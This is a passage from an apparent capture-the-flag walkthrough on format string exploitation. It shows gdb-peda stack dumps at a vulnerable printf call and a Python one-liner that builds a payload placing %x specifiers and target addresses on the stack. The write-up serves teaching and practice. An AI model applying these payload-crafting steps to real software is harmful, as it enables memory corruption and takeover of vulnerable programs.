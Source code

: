```
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400695 <fun0+47>:  lea    rax,[rbp-0x70]
   0x400699 <fun0+51>:  mov    rdi,rax
   0x40069c <fun0+54>:  mov    eax,0x0
=> 0x4006a1 <fun0+59>:  call   0x400530 <printf@plt>
   0x4006a6 <fun0+64>:  
    mov    eax,DWORD PTR [rip+0x2009b0]        # 0x60105c <target0>
   0x4006ac <fun0+70>:  cmp    eax,0xace5
   0x4006b1 <fun0+75>:  jne    0x4006ca <fun0+100>
   0x4006b3 <fun0+77>:  
    mov    eax,DWORD PTR [rip+0x2009a7]        # 0x601060 <target1>
Guessed arguments:
arg[0]: 0x7fffffffddb0 ("%3$x%9$x\255\336\276\336\312\372\n")
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 ("%3$x%9$x\255\336\276\336\312\372\n")
0008| 0x7fffffffddb8 --> 0xafacadebedead 
0016| 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0xff00000000000000 
0056| 0x7fffffffdde8 --> 0xff0000000000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006a1 in fun0 ()
gdb-peda$ x/x 0x7fffffffddb8
0x7fffffffddb8:   0x000afacadebedead
```

So we can see that currently both of our addresses are stored in the same QWORD, and in addition to that there is a newline after 0xfacade (which in hex is 0x0a) . We can fix this by adding 10 zeroes in front of both 0xbedead and 0xfacade. This should format the string so both of the addresses have their own QWORD. Let's try it.

```
$  python -c 'print "%3$x" + "%9$x" + "\xad\xde\xbe\x00\x00\x00\x00\x00" + "\xde\xca\xfa\x00\x00\x00\x00\x00"' > payload
```

keep in mind that we need the flags (%x's and %n's) before the addresses because of the null terminators "\x00". Any flags after the null terminators will be ignored. and now onto gdb, using the same breakpoint

```
Breakpoint 1, 0x00000000004006a1 in fun0 ()
gdb-peda$ x/x 0x7fffffffddb8
0x7fffffffddb8:   0x0000000000bedead
gdb-peda$ x/2x 0x7fffffffddb8
0x7fffffffddb8:   0x0000000000bedead   0x0000000000facade
```

So we can see there, the two strings are properly formatted. There is nothing else in either QWORD except for zeroes infront of it (and not ascii zeroes) that will not change the value of the QWORD. Now that we have the format down, let's try to read the addresses using the format string exploit to see how many QWORDS away they are.  
